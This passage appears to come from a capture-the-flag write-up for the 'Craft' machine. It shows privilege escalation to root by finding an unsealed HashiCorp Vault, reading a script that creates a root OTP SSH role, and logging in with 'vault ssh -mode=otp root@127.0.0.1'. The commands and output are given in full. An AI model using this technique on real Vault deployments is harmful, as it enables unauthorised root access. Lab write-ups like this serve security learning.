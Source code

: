 The vault is unsealed. Therefore we can directly access to the data. If this vault
was sealed we will need 3 of the 5 keys to unsealed
the vault (with the *shamir* seal type).

    :::text
    gilfoyle@craft:~$ vault status
    Key             Value
    ---             -----
    Seal Type       shamir
    Initialized     false
    Sealed          false
    Total Shares    5
    Threshold       3
    Version         0.11.1
    Cluster Name    vault-cluster-cb7e66f9
    Cluster ID      8bb98351-0148-3c42-d124-45a87dc43db7
    HA Enabled      false

We can list the secret engine enable on the vault.

    :::text
    gilfoyle@craft:~$ vault secrets list
    Path          Type         Accessor              Description
    ----          ----         --------              -----------
    cubbyhole/    cubbyhole    cubbyhole_ffc9a6e5    per-token private secret storage
    identity/     identity     identity_56533c34     identity store
    secret/       kv           kv_2d9b0109           key/value secret storage
    ssh/          ssh          ssh_3bbd5276          n/a
    sys/          system       system_477ec595       system endpoints used for control, policy and debugging

In the `craf-infra` repository there is a `vault` folder containing a
`secret.sh` file. This file show wich secrets are created: An ssh acces for the
root user.

    :::text
    craft-infra/vault# cat secrets.sh
    #!/bin/bash

    # set up vault secrets backend

    vault secrets enable ssh

    vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0

Therefore we just need to use the `vault`'s `ssh` command to connect as `root`
on `localhost` with the `otp` mode. We are root on the machine and can access
the flag.

    :::text
    gilfoyle@craft:~$ vault ssh -mode=otp root@127.0.0.1
    WARNING: No -role specified. Use -role to tell Vault which ssh role to use for
    authentication. In the future, you will need to tell Vault which role to use.
    For now, Vault will attempt to guess based on the API response. This will be
    removed in the Vault 1.1.
    Vault SSH: Role: "root_otp"
    Vault could not locate "sshpass". The OTP code for the session is displayed
    below. Enter this code in the SSH password prompt. If you install sshpass,
    Vault can automatically perform this step for you.
    OTP for the session is: fb100502-b40c-9f60-aa35-f90a5000a2a3
